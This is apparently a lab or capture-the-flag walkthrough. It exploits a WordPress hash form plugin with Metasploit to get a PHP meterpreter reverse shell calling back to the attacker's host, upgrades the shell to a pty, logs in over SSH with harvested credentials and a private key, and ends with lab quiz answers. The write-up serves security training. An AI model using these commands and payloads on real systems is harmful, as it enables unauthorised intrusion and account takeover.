









Our goal at this point is to test if the information we’ve found leads to a successful exploitation. In this case, we have three approaches that we can use

1. WordPress exploit from the Metasploit Framework
2. SSH private key
3. Credentials

## Wordpress

Start metasploit and search for the plugin exploit 

```
msf> search wordpress hash form
```



```
use 0
show options
```



After noting the requirements, we set them

```
set RHOSTS 10.10.10.127
set RPORT 443
set ssl true
set LHOST tun0
```



With all options set correctly, execute the exploit against the target

```
run
```



Let’s breakdown what it happening here:

1. The process kicks off with Metasploit starting a reverse TCP handler on our attacking machine (10.10.15.166:4444) to catch the incoming connection.
2. Then the automatic check confirms the plugin’s presence and vulnerability which is always a good sign we’re on the right track. An automatic check confirms the presence of the vulnerable plugin (a good sign that we're on the right track.)
3. Next, it grabs a nonce (security token) from the target, `80a10c6200`, which it uses to authenticate the request.
4. With that, it uploads a `meterpreter` payload written in PHP to the server’s `wp-content/uploads/hashform/temp/` directory as `cwubwazg.php`. In other words, a payload is the piece of code that contains instructions to connect back to our attacking machine.
5. Then, it triggers the payload, executing our code on the target.
6. Finally, the Meterpreter session opens, giving us a full reverse shell from the target (10.10.10.127:56728) back to our attacking machine (10.10.15.166:4444) which means that we are in.

Next is to retrieve information about the current target machine

```
sysinfo
```



From here,  use the `shell`  command to tell meterpreter to execute a basic shell



Spawn a pty shell and stabilise it

```bash
# spawning a shell
python3 -c 'import pty; pty.spawn("/bin/bash")'  

# stabilising the shell
CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```


---

## SSH

For SSH, we have two options that we can try to get access to the system

#### 1. Using the password

Use the credentials (`john:SuperSecurePass123`) we found in the `.bash_history` file.

```bash
ssh john@10.10.10.127

# password : SuperSecurePass123
```



#### 2. Using SSH private key

```bash
ssh -i id_rsa john@10.10.10.127
```



It initiallly fails. This is because SSH enforces strict file permissions on private keys to prevent unauthorized access
As per the output, the key has permissions like `0664`, thus it's readable by other users on the system, which poses a security risk. OpenSSH refuses to use such keys to protect against potential compromise.

Running `chmod 600 id_rsa` sets the permissions to `-rw-------`, meaning only the owner can read or write the file. This satisfies SSH’s security requirement, allowing the key to be used for authentication

```bash
chmod 600 id_rsa
```


It finally accepts

```bash
ssh -i id_rsa john@10.10.10.127
```




---

## Q/A

1. After exploiting the WordPress plugin, what is the hostname of the Linux target?

```
ubuntu
```

2. What is the kernel version used by the Linux target? (Format: x.yy.z)

```
5.15.0
```

3. What is the user id (uid) of the user www-data?

```
33
```

4. What is the GID of the group "john"?

```
1000
```